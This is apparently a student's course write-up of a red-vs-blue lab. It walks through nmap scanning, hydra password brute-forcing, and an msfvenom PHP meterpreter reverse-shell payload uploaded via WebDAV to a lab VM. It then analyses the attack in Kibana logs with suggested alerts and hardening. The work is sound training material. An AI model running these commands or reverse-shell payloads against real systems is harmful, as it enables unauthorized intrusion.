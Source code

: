 # UCLA Project II - Red vs. Blue Engagement
## by Kurt Anderson

In this project I will work on a Red Team vs. Blue Team scenario in which I will play the roles of both Pentester and Security Operations Center Analyst.

As the Red Team, I will attack a vulnerable VM within my created virtual environment, ultimately gaining root access to the machine.
As the Blue Team, I will use Kibana to review logs taken during the Red Team engagement. I will then use the logs to extract hard data and visulaizations for my report, using it to interpret my log data to suggest mitigation measures for each exploit that I've successfully performed as a Pentester.

Day 1 Activity File: Red Team

Complete the following to find the flag:

●	Discover the IP address of the Linux web server.

Command:
	
	nmap -v 192.168.1.0/24 
  
  ![nmap scan of 192.168.1.0/24](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/nmap_scan.jpg)
  
IP address found:
  
	192.168.1.90
	
●	Locate the hidden directory on the web server.

I used dirb to enumerate any directories and identify the hidden folder.

![dirb directory enumeration](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/dirb_enumeration.jpg)
 
●	Brute force the password for the hidden directory using the hydra command:

![Hydra Brute Force](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/hydra.jpg)

Using the username and password I was able to log into the host and found a Personal Note:

Command:

	hydra -l ashton -P /usr/share/wordlists/rockyou.txt

![Personal Note:](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/personal_note.jpg)

●	Break the hashed password with the Crack Station website or John the Ripper.
 
![Cracked Password:](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/cracked_password.jpg)

●	Connect to the server via WebDav.

![WebDAV Credentials](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/webdav_login.PNG)

●	Upload a PHP reverse shell payload.
Command: 

	msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 raw > reverse_shell.php

![Payload](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/msvenom.jpg)
![WebDAV File Manager](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/webdav_reverse_shell.jpg)
![WebDAV Browswer](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/webdav_upload.jpg)
 
●	Execute the payload that you uploaded to the site to open up a meterpreter session.

![Exploit Payload](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/payload.jpg)
![Exploitation](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/exploitation.jpg)

●	Find and capture the flag.

![Flag Found](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/meterpreter.jpg)


Day 2 Activity File: Incident Analysis with Kibana

 
After creating your dashboard and becoming familiar with the search syntax, use these tools to answer the questions below:

1.	Identify the offensive traffic.

○	Identify the traffic between your machine and the web machine:

	■	When did the interaction occur?

		The interaction occurred on 2021-12-14 03:00

	■	What responses did the victim send back?

		200, 207, 401, 404, 206, 304, 301

■	What data is concerning from the Blue Team perspective?

The status code ‘OK’ signifying that there was a completed request from the source IP and a response from the destination IP
 

2.	Find the request for the hidden directory.

○	In your attack, you found a secret folder. Let's look at that interaction between these two machines.
■	How many requests were made to this directory? At what time and from which IP address(es)?

There were 16,721 requests made to the directory /secret_folder, at 03:45 from the IP address 192.168.1.90.

■	Which files were requested? What information did they contain?

The file that was requested is the reverse_shell.php file

■	What kind of alarm would you set to detect this behavior in the future?

To detect this behavior in the future, I would set an alert to send an email with a high priority to notify the SOC that this type of request was made to access confidential company folders and data. 

■	Identify at least one way to harden the vulnerable machine that would mitigate this attack.

One way to harden the vulnerable machine that would mitigate this attack would be to ensure that the device has been updated and patched regularly in order to mitigate the exploitation of common system vulnerabilities.

3.	Identify the brute force attack.

○	After identifying the hidden directory, you used Hydra to brute-force the target server. Answer the following questions:
■	Can you identify packets specifically from Hydra?

Yes, by searching the ‘user_agent.original” field. 







■	How many requests were made in the brute-force attack?

There were 16,711 requests
 



■	How many requests had the attacker made before discovering the correct password in this one?

It appears that there were 16,711 requests before the correct password was discovered.
 

■	What kind of alarm would you set to detect this behavior in the future and at what threshold(s)?

I would set an alert to email the SOC that the login threshold has been surpassed in a certain amount of time. 


■	Identify at least one way to harden the vulnerable machine that would mitigate this attack.
Upon searching through the logs it appeared that most of these requests happened through port 80 on the target machine, so I would suggest to place a firewall to filter out packets coming from outdated user agents like Mozilla 4.0, or close port 80 entirely.
4.	Find the WebDav connection.

○	Use your dashboard to answer the following questions:
■	How many requests were made to this directory?

209 requests were made to the 192.168.1.105/webdav/ directory.
 

■	Which file(s) were requested?

XML files were requested, based on the HTTP request method ‘propfind’, and the status code of 207, which is a response used by webdav servers.

■	What kind of alarm would you set to detect such access in the future?

An alarm to alert the SOC of any PROPFIND requests for Webdav.

■	Identify at least one way to harden the vulnerable machine that would mitigate this attack.

One way to harden the vulnerable machine from PROPFIND is to use multi-factor authentication to help prevent brute-force attacks on webdav logins.

5.	Identify the reverse shell and meterpreter traffic.

○	To finish off the attack, you uploaded a PHP reverse shell and started a meterpreter shell session. Answer the following questions:
■	Can you identify traffic from the meterpreter session?
 

There was a spike in activity from the source IP address 192.168.1.90, which potentially shows that the target machine 192.168.1.105 had been breached, since they share similar patterns in activity. 
■	What kinds of alarms would you set to detect this behavior in the future?
An alert that has a minimum threshold of packet traffic to alert the SOC of any spikes in activity, and is monitored every hour. 

■	Identify at least one way to harden the vulnerable machine that would mitigate this attack.
In order to harden the vulnerable machine to mitigate this attack, I suggest that we require authentication in order to upload files to the webdav server, as well as defining the valid file extension types allowed on the server.
